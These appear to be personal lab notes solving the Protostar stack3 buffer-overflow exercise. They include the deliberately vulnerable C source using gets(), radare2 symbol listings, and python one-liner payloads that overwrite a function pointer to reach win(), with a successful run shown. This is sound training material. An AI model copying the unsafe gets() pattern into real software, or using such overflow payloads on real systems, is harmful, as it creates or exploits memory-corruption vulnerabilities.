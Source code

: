 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

Let's do a test run:
```sh
┌──(kali㉿kali)-[~/vulnhub/protostar-2/bin]
└─$ ./stack3
hello
```

We have a 64 char buffer once again, but this time we have a function pointer to overwrite :)
Since we have another gets() and we will want to try different output we'll pipe the input to the program like:
`python -c "print('A' * 64 + '\x64\x63\x62\x61')" | ./<program>`

```sh
┌──(kali㉿kali)-[~/vulnhub/protostar-2/bin]
└─$ python -c "print('A' * 64 + '\x64\x63\x62\x61')" | ./stack3           
calling function pointer, jumping to 0x61626364
zsh: done                python -c "print('A' * 64 + '\x64\x63\x62\x61')" | 
zsh: segmentation fault  ./stack3
```

There, we set the right location in memory, but what is the address on the function. Let's find out:
```sh
┌──(kali㉿kali)-[~/vulnhub/protostar-2/bin]
└─$ r2 -d -A stack3                                                                          
...
[0xf7f825b0]> afl
0x08048330    1      6 sym.imp.gets
0x08048340    1      6 sym.imp.__libc_start_main
0x08048350    1      6 sym.imp.printf
0x08048360    1      6 sym.imp.puts
0x08048370    1     33 entry0
0x080483a0    6     85 sym.__do_global_dtors_aux
0x08048400    4     35 sym.frame_dummy
0x080484f0    4     42 sym.__do_global_ctors_aux
0x08048480    1      5 sym.__libc_csu_fini
0x0804851c    1     28 sym._fini
0x08048424    1     20 sym.win
0x08048490    4     90 sym.__libc_csu_init
0x080484ea    1      4 sym.__i686.get_pc_thunk.bx
0x08048438    3     65 main
0x080482e0    3     48 sym._init
0x08048320    1      6 loc.imp.__gmon_start__
```

The win() function is at memory address 0x08048424
```
┌──(kali㉿kali)-[~/vulnhub/protostar-2/bin]
└─$ python -c "print('A' * 64 + '\x24\x84\x04\x08')" | ./stack3
calling function pointer, jumping to 0x0484c224
zsh: done                python -c "print('A' * 64 + '\x24\x84\x04\x08')" | 
zsh: segmentation fault  ./stack3
```

Checked that this works for other people. We're on my kali vm, not on the original ISO vm since it has us keyb.

We used the THM bof1 rooms vm to compile and run the code (the elf couldn't start)
```sh
[user1@ip-10-10-48-4 ~]$ nano stack3.c
[user1@ip-10-10-48-4 ~]$ gcc stack3.c -o stack3 -fno-stack-protector -no-pie
stack3.c: In function ‘main’:
stack3.c:18:3: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   gets(buffer);
   ^~~~
   fgets
/tmp/cce1W5Mq.o: In function `main':
stack3.c:(.text+0x35): warning: the `gets' function is dangerous and should not be used.
[user1@ip-10-10-48-4 ~]$ ls -la st*
```

```sh
[user1@ip-10-10-48-4 ~]$ r2 -d -A stack3
...
[0x7ffff7dd9ef0]> afl
0x00400490    1 42           entry0
0x004004c0    4 37           sym.deregister_tm_clones
0x004004f0    4 55           sym.register_tm_clones
0x00400530    3 29           entry.fini0
0x00400550    1 7            entry.init0
0x00400620    1 2            sym.__libc_csu_fini
0x00400624    1 9            sym._fini
0x004005c0    3 93   -> 84   sym.__libc_csu_init
0x00400438    3 23           sym._init
0x00400557    1 17           sym.win
0x00400460    1 6            sym.imp.puts
0x00400568    3 87           main
0x00400480    1 6            sym.imp.gets
0x00400470    1 6            sym.imp.printf
```
The win() function is at 0x00400557.

```sh
[user1@ip-10-10-48-4 ~]$ python -c "print('A'*64+'\x57\x05\x40\x00')" | ./stack3
[user1@ip-10-10-48-4 ~]$ python -c "print('A'*640+'\x57\x05\x40\x00')" | ./stack3
calling function pointer, jumping to 0x41414141
Segmentation fault
[user1@ip-10-10-48-4 ~]$ python -c "print('A'*70+'\x57\x05\x40\x00')" | ./stack3
calling function pointer, jumping to 0x00000040
Segmentation fault
[user1@ip-10-10-48-4 ~]$ python -c "print('A'*72+'\x57\x05\x40\x00')" | ./stack3
calling function pointer, jumping to 0x00400557
code flow successfully changed
```
There are a few extra bytes on this machine compared to the original image but we can run it.

---

Looking at the program in edb (gui app)

Graph of main()
![[Images/Pasted image 20240823160707.png]]

Here we can clearly see the if:
- the red arrow if it's true, going to call printf() and then the function pointers function
- the green arrow skips the contents of the if and hops straight to 0x08048477 where we have the leave and ret

![[Images/Pasted image 20240823161658.png|600]]


new compiled version - functions
![[Images/Pasted image 20240823170958.png]]

0x08049186


recompiled in the kali vm:

```sh
┌──(kali㉿kali)-[~/vulnhub/protostar-2/bin]
└─$ gcc stack3.c -o stack3-compiled -fno-stack-protector -no-pie -m32
stack3.c: In function ‘main’:
stack3.c:18:3: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   18 |   gets(buffer);
      |   ^~~~
      |   fgets
/usr/bin/ld: /tmp/ccp2vO6Q.o: in function `main':
stack3.c:(.text+0x57): warning: the `gets' function is dangerous and should not be used.
```

```sh
┌──(kali㉿kali)-[~/vulnhub/protostar-2/bin]
└─$ python -c "print('A' * 64 + '\x86\x91\x04\x08')" | edb --run ./stack3-compiled
```

![[Images/Pasted image 20240823175028.png]]

0xc2 is inserted twice:
![[Images/Pasted image 20240823174605.png]]

